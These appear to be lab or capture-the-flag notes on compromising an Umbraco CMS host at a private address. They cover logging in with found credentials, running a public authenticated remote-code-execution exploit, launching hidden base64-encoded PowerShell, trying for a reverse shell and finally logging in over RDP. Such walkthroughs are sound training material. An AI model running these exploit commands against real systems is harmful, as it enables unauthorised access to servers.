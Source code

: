 Can log into http://10.10.61.62/umbraco 
`SG@anthem.com:UmbracoIsTheBest!`

Found a public exploit for Umbraco CMS ([ExploitDB](https://www.exploit-db.com/exploits/49488))

Ran the exploit
```bash
python 49488.py -u 'SG@anthem.com' -p 'UmbracoIsTheBest!' -i http://10.10.61.62 -c whoami
```
![[Pasted image 20240821125548.png]]
Gained a better interactive shell using an exploit available on [GitHub](https://github.com/Jonoans/Umbraco-RCE)

Having a real hard time sending a file over to the victim machine to gain a reverse shell
![[Pasted image 20240821135824.png]]
Therefore, executing commands like
```bash
python exploit.py -u 'SG@anthem.com' -p 'UmbracoIsTheBest!' -i http://10.10.61.62 -c 'powershell' -a '-nop -w hidden -e bABzACAAQwA6AFwA'
```

Tried a lot to get a reverse shell but none worked

Attempted to RDP as SG with the gathered credentials, and was able to log in as SG

